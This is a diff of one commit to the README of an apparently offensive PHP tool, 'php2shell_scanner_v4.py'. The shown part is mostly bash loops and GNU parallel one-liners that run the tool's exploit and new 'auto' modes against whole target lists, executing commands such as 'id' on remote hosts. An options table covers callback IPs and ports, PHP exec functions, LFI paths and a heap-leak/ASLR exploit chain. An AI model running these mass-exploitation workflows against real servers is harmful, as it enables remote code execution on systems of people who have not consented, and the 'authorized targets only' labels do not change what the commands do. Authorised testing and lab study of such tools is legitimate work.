

Before and after one commit to gloryy2k/pppppp, a Markdown page: README.md, 2 parts joined by grey strips. Shown at 88% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -136,31 +198,26 @@ while IFS= read -r target; do
 done < targets.txt
 ```
 
-### Exploit (authorized targets only)
+### Auto mode (authorized targets only)
 
 ```bash
 #!/bin/bash
-# Format: target|lfi_path
-# Example: http://10.0.0.1:8080|/page.php?page=
-while IFS='|' read -r target lfi; do
-    target=$(echo "$target" | xargs)
-    lfi=$(echo "$lfi" | xargs)
+while IFS= read -r target; do
+    target=$(echo "$target" | tr -d '\r' | xargs)
     [ -z "$target" ] && continue
     slug=$(echo "$target" | sed 's|[:/]|_|g')
-    echo "[*] Exploiting: $target (LFI: $lfi)"
-    python php2shell_scanner_v4.py exploit "$target" \
-        --chain A --ack-authorised \
-        --lfi-path "$lfi" \
+    echo "[*] Auto: $target"
+    python php2shell_scanner_v4.py auto "$target" \
+        --ack-authorised \
         --callback-port 0 \
         --command "id" \
-        --json --out "runs/mass/${slug}-exploit" 2>/dev/null
-done < targets_exploit.txt
+        --json --out "runs/mass/${slug}-auto" 2>/dev/null
+done < targets_authorised.txt
 ```
 
 ### Parallel mass scan (with GNU parallel)
 
 ```bash
-# Probe all targets, 10 concurrent
 cat targets.txt | parallel -j10 \
     'python php2shell_scanner_v4.py probe {} --json --out runs/mass/{= s|[:/]|_|g =} 2>/dev/null'
 ```
@@ -168,7 +225,6 @@ cat targets.txt | parallel -j10 \
 ### Aggregate results
 
 ```bash
-# Find all targets with proof-level findings
 for d in runs/mass/*/findings.json; do
     python -c "
 import json, sys
@@ -275,18 +331,30 @@ python lab/matrix/run_matrix.py --ack-authorised
 python -m unittest discover -s tests -v
 ```
 
-159 tests covering: version parsing, patch assessment, per-CVE backports, telemetry parsing, HTTP classification, schema validation, evidence integrity, assessor ladders, exploit chains, callback verification, and false-positive exclusions.
+192 tests across 7 test files covering: version parsing, patch assessment, per-CVE backports, telemetry parsing, HTTP classification, schema validation, evidence integrity, assessor ladders, exploit chains A/B/C/D, Chain D heap leak parsing, Chain D offset profile loading, callback verification, and false-positive exclusions.
+
+| Test file | Tests | Focus |
+|---|---|---|
+| `test_schema` | 34 | Schema validation, evidence format |
+| `test_exploit` | 34 | Exploit chains A/B/C, callback verification |
+| `test_chain_d` | 33 | Chain D strategies, heap leak parser, offset profiles, ASLR candidates |
+| `test_assess` | 32 | Evidence ladder, severity classification |
+| `test_classifier` | 21 | Version/SAPI/build classification |
+| `test_parser` | 20 | Telemetry and response parsing |
+| `test_http` | 18 | HTTP client, TLS, redirects, error handling |
 
 ## Key Options Reference
 
 | Option | Description |
 |---|---|
-| `--ack-authorised` | Required for prove/exploit: confirms written authorization |
+| `--ack-authorised` | Required for prove/exploit/auto: confirms written authorization |
 | `--scenario <id>` | Scenario to execute (e.g., `618-S2`, `619`, `618`) |
-| `--chain <A\|B\|C>` | Exploit chain to use |
+| `--chain <A\|B\|C\|D>` | Exploit chain to use |
 | `--lfi-path <path>` | LFI path for chains A/C (e.g., `/page.php?page=`) |
 | `--callback-port <port>` | Callback listener port (0 = auto, omit = disabled) |
+| `--callback-ip <ip>` | IP the target should call back to (auto-detected if omitted) |
 | `--command <cmd>` | Command to execute on target (default: `id`) |
+| `--exec-func <func>` | Preferred PHP exec function (system/passthru/shell_exec/exec/popen/proc_open) |
 | `--status-url <url>` | Lab status endpoint for SAPI/worker verification |
 | `--health-url <url>` | Health check URL |
 | `--telemetry <file>` | Import PHP/nginx log for correlation (repeatable) |
````
Also changed, not shown: other parts of README.md (+73 -5 lines).
